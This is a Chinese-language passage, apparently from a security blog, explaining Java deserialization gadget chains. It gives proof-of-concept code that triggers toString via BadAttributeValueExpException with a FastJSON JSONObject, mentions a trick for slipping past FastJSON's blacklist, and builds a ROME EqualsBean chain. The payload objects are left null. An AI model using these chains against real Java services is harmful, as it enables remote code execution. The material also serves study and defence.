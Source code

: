 这个就很简单了，`BadAttributeValueExpException.readObject()`直接走到它里面对象的toString

代码如下

```
Object tpl = null;
        JSONObject jsonObject = new JSONObject();
        jsonObject.put("gg",tpl);
        BadAttributeValueExpException poc = new BadAttributeValueExpException(null);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(poc,jsonObject);
//      用于Reference包裹绕过FastJSon高版本resolveClass黑名单检查,from Y4tacker
/*        HashMap hashMap = new HashMap();
        hashMap.put(tpl,poc);*/
        serialize(poc);
        unserialize("ser.bin");
BadAttributeValueExpException.readObject()

private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ObjectInputStream.GetField gf = ois.readFields();
        Object valObj = gf.get("val", null);

        if (valObj == null) {
            val = null;
        } else if (valObj instanceof String) {
            val= valObj;
        } else if (System.getSecurityManager() == null
                || valObj instanceof Long
                || valObj instanceof Integer
                || valObj instanceof Float
                || valObj instanceof Double
                || valObj instanceof Byte
                || valObj instanceof Short
                || valObj instanceof Boolean) {
            val = valObj.toString(); //在这里调用了里面对象的toString()方法
        } else { // the serialized object is from a version without JDK-8019292 fix
            val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
        }
    }
 }
```

##### EqualsBean

**依赖于ROME，在其1.12.0版本前均可用**

代码如下

```
ToStringBean toStringBean = new ToStringBean(Templates.class,new ConstantTransformer(1));
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);
        Object templatesimpl = null;

        HashMap&lt;Object,Object&gt; hashMap = new HashMap&lt;&gt;();
        hashMap.put(equalsBean,"123");

        Field field = toStringBean.getClass().getDeclaredField("obj"); // 低版本（如1.0）此属性名为 _obj
        field.setAccessible(true);
        field.set(toStringBean,templatesimpl);
        serialize(hashMap);
        unserialize("ser.bin");
```
